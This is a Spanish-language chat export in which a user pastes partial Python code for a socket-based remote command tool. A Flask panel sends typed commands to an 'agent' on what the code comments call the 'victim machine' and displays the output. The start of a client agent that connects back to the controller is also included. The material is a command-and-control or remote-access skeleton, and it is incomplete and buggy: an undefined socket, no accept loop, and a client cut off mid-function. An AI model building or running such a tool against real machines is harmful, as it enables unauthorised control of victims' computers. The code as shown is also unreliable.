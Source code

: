 # Servidor y cliente socket

**Created:** 3/23/2025 15:13  

## Prompt:
tengo esto en el lado servidor: @app.route('/execute_command/<int:agent_id>', methods=['GET', 'POST'])
def execute_command(agent_id):
    output = None
    if request.method == 'POST':
        command = request.form.get('command')
        print(f"Recibiendo comando para el agente {agent_id}: {command}")
          # Si el usuario introduce "exit", cerramos la conexión y salimos del bucle
        if command == 'exit':
            # Le decimos al servidor que la conexion la cerramos:
            client_socket.send(command.encode())
            # Cerramos el socket, que se volverá a abrir al inicio del bucle:
            client_socket.close()
            estado = False
        else:
            # Enviamos el comando a la máquina víctima:
            client_socket.send(command.encode())
            # Esperamos a recibir la respuesta de la víctima y lo guardamos en la variable respuesta.
            response = client_socket.recv(4096)
            # Imprimimos la respuesta;
            output= response.decode() 
    return render_template('execute_commands.html', agent_id=agent_id, output=output)

def start_socket_server(host='0.0.0.0', port=5001): # Función para iniciar el servidor de sockets que escuchará las conexiones de los agentes
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(5)
    print(f"Servidor de sockets escuchando en {host}:{port}...")

if __name__ == '__main__':
    threading.Thread(target=start_socket_server, args=('0.0.0.0', 5001), daemon=True).start()  # Iniciar el servidor de sockets en un hilo separado
    app.run(debug=True, host="0.0.0.0", port=5000, use_reloader=False)# Iniciar el servidor Flask //y esto en el cliente: def connect_to_server():
    server_host = '127.0.0.1'
    server_port = 5001  
    agent_id = get_agent_id()  # Obtener el ID antes de conectarse
    if agent_id is None:
        print("Error: No se encontró el ID del agente. Regístrate primero.")
        return  
    try:
        agent_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        agent_socket.connect((server_host, server_port))
        print(f"Agente {agent_id} conectado al servidor.")